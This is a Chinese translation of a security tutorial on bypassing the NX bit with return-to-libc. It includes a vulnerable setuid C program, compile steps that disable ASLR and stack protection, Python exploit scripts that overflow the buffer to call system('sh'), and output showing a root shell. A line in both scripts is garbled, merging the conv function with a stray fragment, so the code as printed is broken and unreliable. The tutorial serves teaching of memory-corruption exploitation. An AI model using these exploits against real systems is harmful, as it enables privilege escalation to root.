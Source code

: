 # 使用 return-to-libc 绕过 NX bit

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)

前提条件：

经典的基于堆栈的缓冲区溢出

虚拟机安装：Ubuntu 12.04（x86）

在以前的帖子中，我们看到了这个攻击者

+   复制shellcode堆栈并跳转到它！

为了成功利用漏洞代码。为了阻止攻击者的行动，安全研究人员提出了一个名为“NX Bit”的漏洞缓解！

**什么是NX Bit？**

它是一种利用缓解技术，使某些内存区域不可执行，并使可执行区域不可写。示例：使数据，堆栈和堆段不可执行，而代码段不可写。

在NX bit打开的情况下，我们基于堆栈的缓冲区溢出的经典方法将无法利用此漏洞。因为在经典的方法中，shellcode被复制到堆栈中，返回地址指向shellcode。但是现在由于堆栈不再可执行，我们的漏洞利用失败！但是这种缓解技术并不完全是万无一失的，因此在这篇文章中我们可以看到如何绕过NX Bit！

漏洞代码：此代码与以前发布的漏洞代码相同，稍作修改。稍后我会谈谈需要修改的内容。

```c
 //vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256]; /* [1] */ 
 strcpy(buf,argv[1]); /* [2] */
 printf("%s\n",buf); /* [3] */
 fflush(stdout);  /* [4] */
 return 0;
}
```

编译命令：

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

注意：“-z execstack”参数不传递给gcc，因此现在堆栈是非可执行的，可以验证如下所示：

```
$ readelf -l vuln
...
Program Headers:
 Type      Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
 PHDR      0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
 INTERP    0x000154 0x08048154 0x08048154 0x00013 0x00013 R 0x1
 [Requesting program interpreter: /lib/ld-linux.so.2]
 LOAD      0x000000 0x08048000 0x08048000 0x00678 0x00678 R E 0x1000
 LOAD      0x000f14 0x08049f14 0x08049f14 0x00108 0x00118 RW 0x1000
 DYNAMIC   0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW 0x4
 NOTE      0x000168 0x08048168 0x08048168 0x00044 0x00044 R 0x4
 ...
 GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x4
 GNU_RELRO 0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R 0x1
$
```

堆栈段只包含RW标志，无E标志！

**如何绕过NX位并实现任意代码执行？**

可以使用叫做“return-to-libc”的攻击技术绕过NX bit。这里返回地址被一个特定的libc函数地址覆盖（而不是包含shellcode的堆栈地址）。例如，如果攻击者想要生成一个shell，那么他将使用system（）地址覆盖返回地址，并在堆栈中设置system（）所需的相应参数，以便成功调用它。

在已经反汇编并绘制了漏洞代码的堆栈布局后，让我们编写一个漏洞代码来绕过NX位！

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Since ALSR is disabled, libc base address would remain constant and hence we can easily find the function address we want by adding the offset to it. 
#For example system address = libc base address + system offset
#where 
       #libc base address = 0xb7e22000 (Constant address, it can also be obtained from cat /proc//maps)
       #system offset     = 0x0003f060 (obtained from "readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system")

system = 0xb7e61060        #0xb7e2000+0x0003f060
exit = 0xb7e54be0          #0xb7e2000+0x00032be0

#system_arg points to 'sh' substring of 'fflush' string. 
#To spawn a shell, system argument should be 'sh' and hence this is the reason for adding line [4] in vuln.c. 
#But incase there is no 'sh' in vulnerable binary, we can take the other approach of pushing 'sh' string at the end of user input!!
system_arg = 0x804827d     #(obtained from hexdump output of the binary)

#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K��}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

宾果，我们得到了root shell！但是在实际应用中，由于root setuid程序会采用最小权限的原则，它并不容易。

什么是最小权限原则？

此技术允许root setuid程序仅在需要时获取root权限。这指的是当需要时，获得root权限，当不需要它们时，它将丢弃获得的root权限。正常做法是root setuid程序之后，用户获取输入之前删除root权限。因此，即使用户输入是恶意的，攻击者也不会得到root shell。例如下面的漏洞代码不允许攻击者获取root shell。

漏洞代码：

```c
//vuln_priv.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```

当我们尝试使用下面的漏洞利用代码来利用它时，以上漏洞的代码不会给出root shell。

```py
#exp_priv.py
#!/usr/bin/env python
import struct
from subprocess import call

system = 0xb7e61060
exit = 0xb7e54be0

system_arg = 0x804829d

#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln_priv", buf])
```

注意：exp_priv.py是exp.py的略微修改的版本 ！只是system_arg变量被调整了！

```
$ python exp_priv.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K川�
$ id
uid=1000(sploitfun) gid=1000(sploitfun) egid=0(root) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ rm /bin/ls
rm: remove write-protected regular file `/bin/ls'? y
rm: cannot remove `/bin/ls': Permission denied
$ exit
$
```

这是隧道的尽头吗？如何利用应用最小权限原则的root setuid程序？

对于漏洞代码（vuln_priv），我们的利用代码（exp_priv.py）正在调用system，随后退出，发现它不足以获取root shell。但是如果我们的利用代码（exp_priv.py）被修改为调用以下libc函数（按照列出的顺序）

+   `seteuid(0)`

+   `system(“sh”)`

+   `exit()`

我们将获得root shell。这种技术被称为链接到libc！

